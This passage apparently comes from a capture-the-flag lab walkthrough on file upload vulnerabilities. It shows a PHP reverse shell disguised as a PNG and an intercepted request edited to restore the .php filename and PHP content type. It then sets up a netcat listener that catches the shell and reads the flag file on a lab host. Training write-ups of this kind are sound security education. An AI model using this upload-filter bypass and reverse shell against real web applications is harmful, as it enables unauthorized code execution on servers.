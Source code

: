 ```bash
cp php-reverse-shell.php shell.png
```

- In the intercepted request, change the to `filename` and the `Content-Type` to the following values and then forward the request

```bash
filename="shell.php"
Content-Type: text/x-php
```

![](.gitbook/assets/2024-12-03_21-28-53_822.png)

- Set up a `nc` listener and navigate to [http://java.uploadvulns.thm/images/shell.php]( http://java.uploadvulns.thm/images/shell.php) to receive the reverse shell

```bash
rlwrap nc -nvlp 1234

# Rev Shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ cat /var/www/flag.txt
```

---

## Server-Side filtering bypass - extensions
